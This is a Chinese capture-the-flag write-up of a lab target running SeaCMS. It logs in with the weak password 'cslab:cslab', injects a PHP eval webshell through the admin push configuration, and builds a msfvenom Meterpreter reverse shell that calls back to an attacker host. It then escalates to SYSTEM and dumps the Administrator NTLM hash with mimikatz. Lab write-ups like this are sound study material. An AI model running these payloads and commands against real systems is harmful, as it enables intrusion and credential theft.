




# PT-01

:::info

靶标介绍：

> 最终任务是获取管理员的密码，能做到吗？
>
> - 信息收集
> - 权限提升
> - dumphash

:::

## 入口点

```plaintext
http://10.0.0.68/
```

## 入口点 - SeaCMS webshell

直接访问入口点



根据指纹识别，可以确定为 `海洋CMS SeaCMS` 框架，但是只能实现 sql 时间盲注，效率也很低

尝试网站标题等信息进行目录爆破，可以定位网站后台为 `http://10.0.0.68/cslab`



尝试使用弱口令 `cslab:cslab` 成功进入后台


在后台的推送配置这里，通过修改参数，可以实现文件污染

参考：[黑客攻防：文件操作漏洞与 XSS、CSRF、SQL 注入深度解析 - CSDN 博客](https://blog.csdn.net/weixin_65219040/article/details/125346144)


```php
";eval($_REQUEST['cmd']);//
```

成功连接



## flag - 1

老地方



## 后渗透 - 提升权限

首先，先生成一份msf的载荷

```shell
┌──(randark㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.233.2 LPORT=7777 -f exe -o exp-7777.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: exp-7777.exe
```

同时启动监听器

```shell
┌──(randark㉿kali)-[~]
└─$ msfconsole -q
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf exploit(multi/handler) > set lport 7777
lport => 7777
msf exploit(multi/handler) > run 
[*] Started reverse TCP handler on 0.0.0.0:7777 
```

在webshell上执行载荷之后，即可得到会话

```shell
msf exploit(multi/handler) > run 
[*] Started reverse TCP handler on 0.0.0.0:7777 
[*] Sending stage (230982 bytes) to 10.0.0.68
[*] Meterpreter session 1 opened (172.16.233.2:7777 -> 10.0.0.68:49719) at 2025-11-03 23:22:44 +0800

meterpreter > sysinfo 
Computer        : WIN-S4KAS0ERCGQ
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
```

由于是系统服务，可以尝试直接提权

```shell
meterpreter > getsystem 
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## 获取用户凭据

直接加载kiwi来实现

```shell
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-S4KAS0ERCGQ  cad8ef0c410c9709cea512052756ce5a  947e1029f3fc1ce2f1f6592a1e55844dd3152ea2

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-S4KAS0ERCGQ  (null)
WIN-S4KAS0ERCGQ$  WORKGROUP        (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-S4KAS0ERCGQ  (null)
win-s4kas0ercgq$  WORKGROUP        (null)
```

结束

## flag - 2

```plaintext
cad8ef0c410c9709cea512052756ce5a
```
